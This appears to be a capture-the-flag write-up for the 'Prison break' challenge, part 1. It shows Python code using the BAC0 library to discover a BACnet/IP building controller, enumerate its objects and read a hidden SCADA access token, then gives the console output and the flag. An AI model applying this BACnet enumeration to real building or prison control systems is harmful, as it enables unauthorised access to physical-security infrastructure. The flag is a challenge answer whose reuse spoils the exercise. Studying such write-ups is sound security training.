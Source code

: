# Prison break 1/2

## Challenge
Dans cette première partie du challenge Prison break, vous manipulerez un automate de gestion technique de batîment dans une prison de haute sécurité. Cet automate dialogue avec une interface de supervision SCADA via le protocole BACnet/IP. La première étape de ce challenge est de récupérer un token présent dans la mémoire de l'automate afin de pouvoir accèder à l'interface web SCADA.

Pour cela, vous devrez lire dans les objets de l'automate à l'aide du protocole BACnet/IP et tenter de récupérer un token caché. Vous pourrez alors continuer la deuxième partie de l'épreuve à l'aide de ce token.

Les informations générales sur cette épreuve sont disponibles ici : https://france-cybersecurity-challenge.fr/prison-break

## Inputs
- SCADA interface at https://prison-break.france-cybersecurity-challenge.fr/
- Template python script: [prison-break-template.py](./prison-break-template.py)

## Solution
The template already implements the initialization of the `bacnet` client:
```python
    # Check the BAC0 version
    assert BAC0.version == "22.9.21", "Error: please use the BAC0 version 22.9.21"

    try:
        # Perform the resolution
        target = socket.gethostbyname("prison-break.france-cybersecurity-challenge.fr")
    except:
        print("Failed to resolve FQDN...")
        exit(-1)

    # Initialize the local BACnet client
    print("[+] Initiliaze local bacnet client")
    bacnet = BAC0.lite(ip = LOCAL_IP, port = LOCAL_PORT)
    print("[+] Initialization done")
```

After that, we need to send a `whois` request to the `target` which will discover the `devices` present on the `target`. Since we know nothing about the device itself, we can request to read the `objectList`. Among that `objectList`, there's a `characterstringValue` object present, which gives us the `token` we're looking for:

```python
    bacnet.whois(target)
    for _, (address, device_id) in enumerate(bacnet.discoveredDevices):
        print(f"device {address} {device_id}")
        objlist = bacnet.read(f"{address} device {device_id} objectList")
        print(f"{objlist=}")
        token = bacnet.read(f"{address} characterstringValue 1 description")
        print(f"{token=}")
```

Here's the console output showing the `objectList` and single `characterstringValue` object type holding the `token`:

```console
$ python3 prison-break-template.py
[+] Initiliaze local bacnet client
2024-04-09 15:17:22,361 - INFO    | Starting BAC0 version 22.9.21 (Lite)
2024-04-09 15:17:22,361 - INFO    | Use BAC0.log_level to adjust verbosity of the app.
2024-04-09 15:17:22,361 - INFO    | Ex. BAC0.log_level('silence') or BAC0.log_level('error')
2024-04-09 15:17:22,361 - INFO    | Starting TaskManager
2024-04-09 15:17:22,362 - INFO    | Using ip : 0xc0a8640793b0
2024-04-09 15:17:22,659 - INFO    | Starting app...
2024-04-09 15:17:22,660 - INFO    | BAC0 started
2024-04-09 15:17:22,660 - INFO    | Registered as Simple BACnet/IP App
2024-04-09 15:17:22,666 - INFO    | Update Local COV Task started
[+] Initialization done
device 141.94.246.228 1556938
objlist=[('device', 1556938), ('binaryValue', 1), ('binaryValue', 2), ('binaryValue', 3), ('binaryValue', 4), ('binaryValue', 5), ('binaryValue', 6), ('binaryValue', 7), ('binaryValue', 8), ('binaryValue', 9), ('binaryValue', 10), ('binaryValue', 11), ('binaryValue', 12), ('binaryValue', 13), ('binaryValue', 14), ('binaryValue', 15), ('binaryValue', 16), ('binaryValue', 17), ('binaryValue', 18), ('binaryValue', 19), ('binaryValue', 20), ('binaryValue', 21), ('binaryValue', 22), ('binaryValue', 23), ('binaryValue', 24), ('binaryValue', 25), ('binaryValue', 26), ('binaryValue', 27), ('binaryValue', 28), ('binaryValue', 29), ('binaryValue', 30), ('binaryValue', 31), ('binaryValue', 32), ('binaryValue', 33), ('binaryValue', 34), ('binaryValue', 35), ('binaryValue', 36), ('binaryValue', 37), ('binaryValue', 38), ('binaryValue', 39), ('binaryValue', 40), ('binaryValue', 41), ('binaryValue', 42), ('binaryValue', 43), ('binaryValue', 44), ('binaryValue', 45), ('binaryValue', 46), ('binaryValue', 47), ('binaryValue', 48), ('binaryValue', 49), ('binaryValue', 50), ('binaryValue', 51), ('analogValue', 1), ('analogValue', 2), ('analogValue', 3), ('analogValue', 4), ('characterstringValue', 1)]
token='328e0956240c04705d89b9cc1f1e7852'
```

With that `token`, we can connect to the `SCADA interface` and login.

Notice that the `token` rotates at each connection.

## Python code
Python code at [sol.py](./sol.py)

## Flag
> First flag: FCSC{2f3a395e619a213146d58e6e7e0758f4c66b7a65abca10bc96882a49df7fa2af}
